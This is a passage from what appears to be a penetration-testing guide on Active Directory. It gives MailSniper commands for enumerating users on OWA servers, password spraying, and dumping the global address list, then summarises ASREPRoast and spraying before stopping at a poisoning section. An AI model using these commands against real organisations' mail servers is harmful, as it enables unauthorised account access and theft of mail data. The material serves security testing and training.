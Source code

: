 * **OWA (Outlook Web Access) Server**

If you found one of these servers in the network you can also perform **user enumeration against it**. For example, you could use the tool [**MailSniper**](https://github.com/dafthack/MailSniper):

bash

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```

You can find lists of usernames in [**this github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) and this one ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

However, you should have the **name of the people working on the company** from the recon step you should have performed before this. With the name and surname you could used the script [**namemash.py**](https://gist.github.com/superkojiman/11076951) to generate potential valid usernames.

#### [Knowing one or several usernames](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html?highlight=Constrained%20Delegation#knowing-one-or-several-usernames) <a href="#knowing-one-or-several-usernames" id="knowing-one-or-several-usernames"></a>

Ok, so you know you have already a valid username but no passwords... Then try:

* [**ASREPRoast**](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html): If a user **doesn't have** the attribute _DONT\_REQ\_PREAUTH_ you can **request a AS\_REP message** for that user that will contain some data encrypted by a derivation of the password of the user.
* [**Password Spraying**](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/password-spraying.html): Let's try the most **common passwords** with each of the discovered users, maybe some user is using a bad password (keep in mind the password policy!).
  * Note that you can also **spray OWA servers** to try to get access to the users mail servers.

[Password Spraying / Brute Force](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/password-spraying.html)

#### [LLMNR/NBT-NS Poisoning](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html?highlight=Constrained%20Delegation#llmnrnbt-ns-poisoning) <a href="#llmnrnbt-ns-poisoning" id="llmnrnbt-ns-poisoning"></a>

You might be able to **obtain** some challenge **hashes** to crack **poisoning** some protocols of the **network**:
